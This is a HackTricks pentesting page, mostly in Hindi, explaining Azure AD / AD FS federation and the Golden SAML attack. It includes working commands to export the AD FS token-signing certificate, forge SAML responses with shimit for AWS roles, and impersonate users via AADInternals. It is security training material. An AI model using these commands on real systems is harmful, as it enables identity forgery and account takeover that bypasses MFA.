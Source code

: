 # Az - Federation

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)

>**फेडरेशन** एक **डोमेन** का संग्रह है जिसने **विश्वास** स्थापित किया है। विश्वास का स्तर भिन्न हो सकता है, लेकिन आमतौर पर इसमें **प्रमाणीकरण** शामिल होता है और लगभग हमेशा **अधिकार** शामिल होता है। एक सामान्य फेडरेशन में **संस्थाओं की संख्या** शामिल हो सकती है जिन्होंने संसाधनों के एक सेट तक **साझा पहुंच** के लिए **विश्वास** स्थापित किया है।
>आप अपने **ऑन-प्रिमाइसेस** वातावरण को **Azure AD** के साथ **फेडरेट** कर सकते हैं और इस फेडरेशन का उपयोग प्रमाणीकरण और अधिकार के लिए कर सकते हैं। यह साइन-इन विधि सुनिश्चित करती है कि सभी उपयोगकर्ता **प्रमाणीकरण ऑन-प्रिमाइसेस** पर होता है। यह विधि प्रशासकों को अधिक कठोर स्तर के पहुंच नियंत्रण को लागू करने की अनुमति देती है। **AD FS** और PingFederate के साथ फेडरेशन उपलब्ध है।

<figure><img src="../../../../images/image (154).png" alt=""><figcaption></figcaption></figure>

बुनियादी रूप से, फेडरेशन में, सभी **प्रमाणीकरण** **ऑन-प्रिम** वातावरण में होता है और उपयोगकर्ता सभी विश्वसनीय वातावरणों में SSO का अनुभव करता है। इसलिए, उपयोगकर्ता अपने **ऑन-प्रिम क्रेडेंशियल्स** का उपयोग करके **क्लाउड** अनुप्रयोगों तक **पहुँच** कर सकते हैं।

**सिक्योरिटी असेर्शन मार्कअप लैंग्वेज (SAML)** का उपयोग सभी प्रमाणीकरण और अधिकार **जानकारी** के **अदला-बदली** के लिए किया जाता है।

किसी भी फेडरेशन सेटअप में तीन पक्ष होते हैं:

- उपयोगकर्ता या क्लाइंट
- पहचान प्रदाता (IdP)
- सेवा प्रदाता (SP)

<figure><img src="../../../../images/image (121).png" alt="https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps"><figcaption>https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps</figcaption></figure>

1. प्रारंभ में, एक अनुप्रयोग (सेवा प्रदाता या SP, जैसे AWS कंसोल या vSphere वेब क्लाइंट) का उपयोगकर्ता द्वारा एक्सेस किया जाता है। यह कदम बायपास किया जा सकता है, जिससे क्लाइंट सीधे IdP (पहचान प्रदाता) पर जाता है, जो विशिष्ट कार्यान्वयन पर निर्भर करता है।
2. इसके बाद, SP उपयोगकर्ता प्रमाणीकरण के लिए उपयुक्त IdP (जैसे, AD FS, Okta) की पहचान करता है। फिर यह एक SAML (सिक्योरिटी असेर्शन मार्कअप लैंग्वेज) AuthnRequest तैयार करता है और क्लाइंट को चुने हुए IdP पर पुनः मार्गदर्शित करता है।
3. IdP आगे बढ़ता है, उपयोगकर्ता को प्रमाणीकरण करता है। प्रमाणीकरण के बाद, IdP द्वारा एक SAMLResponse तैयार किया जाता है और उपयोगकर्ता के माध्यम से SP को अग्रेषित किया जाता है।
4. अंततः, SP SAMLResponse का मूल्यांकन करता है। यदि सफलतापूर्वक मान्य किया गया, जो IdP के साथ एक विश्वास संबंध को इंगित करता है, तो उपयोगकर्ता को पहुंच दी जाती है। यह लॉगिन प्रक्रिया के पूरा होने को चिह्नित करता है, जिससे उपयोगकर्ता सेवा का उपयोग कर सकता है।

**यदि आप SAML प्रमाणीकरण और सामान्य हमलों के बारे में अधिक जानना चाहते हैं, तो जाएं:**

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/saml-attacks/index.html
{{#endref}}

## Pivoting

- AD FS एक क्लेम-आधारित पहचान मॉडल है।
- "..क्लेम्स बस उपयोगकर्ताओं के बारे में किए गए बयानों (उदाहरण के लिए, नाम, पहचान, समूह) हैं, जो मुख्य रूप से इंटरनेट पर कहीं भी क्लेम-आधारित अनुप्रयोगों तक पहुंच को अधिकृत करने के लिए उपयोग किए जाते हैं।"
- एक उपयोगकर्ता के लिए क्लेम SAML टोकनों के अंदर लिखे जाते हैं और फिर IdP द्वारा गोपनीयता प्रदान करने के लिए हस्ताक्षरित होते हैं।
- एक उपयोगकर्ता को ImmutableID द्वारा पहचाना जाता है। यह वैश्विक रूप से अद्वितीय है और Azure AD में संग्रहीत है।
- ImmutableID को उपयोगकर्ता के लिए ऑन-प्रिम में ms-DS-ConsistencyGuid के रूप में संग्रहीत किया जाता है और/या उपयोगकर्ता के GUID से निकाला जा सकता है।
- अधिक जानकारी [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims) में है।

**गोल्डन SAML हमला:**

- ADFS में, SAML Response को एक टोकन-हस्ताक्षर प्रमाणपत्र द्वारा हस्ताक्षरित किया जाता है।
- यदि प्रमाणपत्र से समझौता किया जाता है, तो Azure AD में किसी भी उपयोगकर्ता के रूप में प्रमाणीकरण करना संभव है जो Azure AD के साथ समन्वयित है!
- हमारे PTA दुरुपयोग की तरह, किसी उपयोगकर्ता के लिए पासवर्ड परिवर्तन या MFA का कोई प्रभाव नहीं होगा क्योंकि हम प्रमाणीकरण प्रतिक्रिया को जाली बना रहे हैं।
- प्रमाणपत्र को DA विशेषाधिकार के साथ AD FS सर्वर से निकाला जा सकता है और फिर इसे किसी भी इंटरनेट से जुड़े मशीन से उपयोग किया जा सकता है।
- अधिक जानकारी [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps) में है।

### गोल्डन SAML

एक **पहचान प्रदाता (IdP)** द्वारा उपयोगकर्ता साइन-इन को अधिकृत करने के लिए **SAMLResponse** उत्पन्न करने की प्रक्रिया महत्वपूर्ण है। IdP के विशिष्ट कार्यान्वयन के आधार पर, **प्रतिक्रिया** **हस्ताक्षरित** या **एन्क्रिप्टेड** हो सकती है, जो **IdP की निजी कुंजी** का उपयोग करती है। यह प्रक्रिया **सेवा प्रदाता (SP)** को SAMLResponse की प्रामाणिकता की पुष्टि करने में सक्षम बनाती है, यह सुनिश्चित करते हुए कि यह वास्तव में एक विश्वसनीय IdP द्वारा जारी किया गया था।

[गोल्डन टिकट हमले](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html#golden-ticket) के साथ एक समानांतर खींचा जा सकता है, जहां उपयोगकर्ता की पहचान और अनुमतियों (गोल्डन टिकट के लिए KRBTGT, गोल्डन SAML के लिए टोकन-हस्ताक्षर निजी कुंजी) को **प्रमाणीकरण वस्तु** (TGT या SAMLResponse) को जाली बनाने के लिए हेरफेर किया जा सकता है। यह किसी भी उपयोगकर्ता का अनुकरण करने की अनुमति देता है, SP तक अनधिकृत पहुंच प्रदान करता है।

गोल्डन SAML कुछ लाभ प्रदान करते हैं:

- इन्हें **दूरस्थ रूप से** बनाया जा सकता है, बिना डोमेन या फेडरेशन का हिस्सा बने।
- ये **दो-कारक प्रमाणीकरण (2FA)** सक्षम होने पर भी प्रभावी रहते हैं।
- टोकन-हस्ताक्षर **निजी कुंजी स्वचालित रूप से नवीनीकरण नहीं करती है**।
- **किसी उपयोगकर्ता का पासवर्ड बदलने से पहले से उत्पन्न SAML अमान्य नहीं होता है**।

#### AWS + AD FS + गोल्डन SAML

[एक्टिव डायरेक्टरी फेडरेशन सर्विसेज (AD FS)](<https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402(v=msdn.10)>) एक Microsoft सेवा है जो विश्वसनीय व्यापार भागीदारों (फेडरेशन) के बीच **पहचान जानकारी के सुरक्षित आदान-प्रदान** की सुविधा प्रदान करती है। यह मूल रूप से एक डोमेन सेवा को फेडरेशन के भीतर अन्य सेवा प्रदाताओं के साथ उपयोगकर्ता पहचान साझा करने की अनुमति देती है।

AWS द्वारा समझौता किए गए डोमेन पर भरोसा करने के साथ, इस भेद्यता का उपयोग संभावित रूप से **AWS वातावरण में किसी भी अनुमतियों को प्राप्त करने** के लिए किया जा सकता है। हमले के लिए **SAML वस्तुओं पर हस्ताक्षर करने के लिए उपयोग की जाने वाली निजी कुंजी** की आवश्यकता होती है, जैसे कि गोल्डन टिकट हमले में KRBTGT की आवश्यकता होती है। AD FS उपयोगकर्ता खाते तक पहुंच इस निजी कुंजी को प्राप्त करने के लिए पर्याप्त है।

गोल्डन SAML हमले को निष्पादित करने के लिए आवश्यकताएँ हैं:

- **टोकन-हस्ताक्षर निजी कुंजी**
- **IdP सार्वजनिक प्रमाणपत्र**
- **IdP नाम**
- **भूमिका नाम (धारण करने के लिए भूमिका)**
- डोमेन\उपयोगकर्ता नाम
- AWS में भूमिका सत्र नाम
- अमेज़न खाता आईडी

_केवल बोल्ड में दिए गए आइटम अनिवार्य हैं। अन्य को इच्छानुसार भरा जा सकता है।_

**निजी कुंजी** प्राप्त करने के लिए, **AD FS उपयोगकर्ता खाते** तक पहुंच आवश्यक है। वहां से, निजी कुंजी को [mimikatz](https://github.com/gentilkiwi/mimikatz) जैसे उपकरणों का उपयोग करके **व्यक्तिगत स्टोर से निर्यात** किया जा सकता है। अन्य आवश्यक जानकारी एकत्र करने के लिए, आप Microsoft.Adfs.Powershell स्नैपिन का उपयोग कर सकते हैं, यह सुनिश्चित करते हुए कि आप ADFS उपयोगकर्ता के रूप में लॉग इन हैं:
```bash
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
सभी जानकारी के साथ, आप [**shimit**](https://github.com/cyberark/shimit)** का उपयोग करके उस उपयोगकर्ता के रूप में एक मान्य SAMLResponse को भूलना संभव है जिसे आप अनुकरण करना चाहते हैं:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
<figure><img src="../../../../images/image (128).png" alt="https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps"><figcaption>https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps</figcaption></figure>

### ऑन-प्रेम -> क्लाउड
```bash
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
यह भी संभव है कि केवल क्लाउड उपयोगकर्ताओं का ImmutableID बनाया जाए और उनकी नकल की जाए।
```bash
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## संदर्भ

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
- [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{{#include ../../../../banners/hacktricks-training.md}}

